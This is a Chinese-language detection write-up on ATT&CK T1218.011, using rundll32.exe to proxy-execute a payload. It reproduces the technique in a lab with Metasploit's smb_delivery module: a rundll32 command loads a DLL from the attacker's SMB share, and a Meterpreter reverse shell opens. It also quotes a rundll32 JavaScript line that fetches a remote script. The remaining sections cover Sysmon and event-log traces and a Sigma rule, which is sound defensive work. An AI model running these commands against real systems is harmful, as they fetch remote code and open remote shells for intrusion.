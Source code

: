 # T1218-011-win-基于白名单Rundll32.exe执行payload

## 来自ATT&CK的描述

Rundll32.exe程序可以调用来执行任意二进制文件。攻击者可能会利用此功能来代理执行代码，从而避免触发那些可能不会监控rundll32.exe进程执行的安全工具，因为正常操作中使用rundll32.exe的Windows会有白名单或误报。

Rundll32.exe可用于通过未记录的shell32.dll函数Control_RunDLL和 Control_RunDLLAsUser来执行控制面板项目文件（.cpl）。双击.cpl文件也会触发rundll32.exe执行。

Rundll32也可用于执行JavaScript等脚本。可以使用类似于下面的语法来完成：rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")" 。这种方法已被恶意软件如Poweliks所使用。

## 测试案例

Rundll32.exe是指“执行32位的DLL文件”。它的作用是执行DLL文件中的内部函数,功能就是以命令行的方式调用动态链接程序库。

说明：Rundll32.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Rundll32调用。

windows 2003默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

win7默认位置：

```bash
C:\Windows\System32\rundll32.exe
C:\Windows\SysWOW64\rundll32.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7（sysmon日志）

### 攻击分析

#### 配置MSF

```bash
msf5 > use exploit/windows/smb/smb_delivery
msf5 exploit(windows/smb/smb_delivery) > set srvhost 192.168.126.146
srvhost => 192.168.126.146
msf5 exploit(windows/smb/smb_delivery) > exploit
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.126.146:4444
[*] Started service listener on 192.168.126.146:445
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 靶机执行payload

```cmd
rundll32.exe \\192.168.126.146\huwSj\test.dll,0
```

#### 反弹shell

```bash
msf5 exploit(windows/smb/smb_delivery) > [*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 1 opened (192.168.126.146:4444 -> 192.168.126.149:49381) at 2020-04-17 15:24:05 +0800
msf5 exploit(windows/smb/smb_delivery) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         meterpreter x86/windows  12306Br0-PC\12306Br0 @ 12306BR0-PC  192.168.126.146:4444 -> 192.168.126.149:49381 (192.168.126.149)
msf5 exploit(windows/smb/smb_delivery) > sessions 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
```

## 测试留痕

sysmon日志记录

```log
EVentID: 1
Image: C:\Windows\SysWOW64\rundll32.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Windows host process (Rundll32)
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: RUNDLL32.EXE
CommandLine: rundll32.exe  \\192.168.126.146\huwSj\test.dll,0
```

win7安全日志记录

```log
EVentID: 4688
进程信息:
新进程 ID: 0xa30
新进程名: C:\Windows\SysWOW64\rundll32.exe

EVentID: 5158
应用程序信息:
进程 ID: 2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

EVentID: 5156 #Windows 筛选平台已允许连接。
应用程序信息:
进程 ID:2608
应用程序名称: \device\harddiskvolume2\windows\syswow64\rundll32.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49381
目标地址: 192.168.126.146
目标端口: 4444
```

## 检测规则/思路

### sigma

```yml
title: Suspicious Call by Ordinal
id: e79a9e79-eb72-4e78-a628-0e7e8f59e89c
description: Detects suspicious calls of DLLs in rundll32.dll exports by ordinal
status: experimental
references:
    - https://techtalk.pcmatic.com/2017/11/30/running-dll-files-malware-analysis/
    - https://github.com/Neo23x0/DLLRunner
    - https://twitter.com/cyb3rops/status/1186631731543236608
tags:
    - attack.defense_evasion
    - attack.execution
    - attack.t1085
author: Florian Roth
date: 2019/10/22
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        CommandLine: '*\rundll32.exe *,#*'
    condition: selection
falsepositives:
    - False positives depend on scripts and administrative tools used in the monitored environment
    - Windows contol panel elements have been identified as source (mmc)
level: high
```


### 建议

通过进程监控来检测和分析rundll32.exe的执行和参数。比较rundll32.exe的近期调用与历史已知合法参数及已加载动态链接库来确定是否有异常和潜在的攻击活动。在rundll32.exe调用之前和之后使用的命令参数也可用于确定正在加载的动态链接库的来源和目的。

## 参考推荐

MITRE-ATT&CK-T1218-011

<https://attack.mitre.org/techniques/T1218/011/>

windows下基于白名单获取shell的方法整理（上）

<http://www.safe6.cn/article/155>

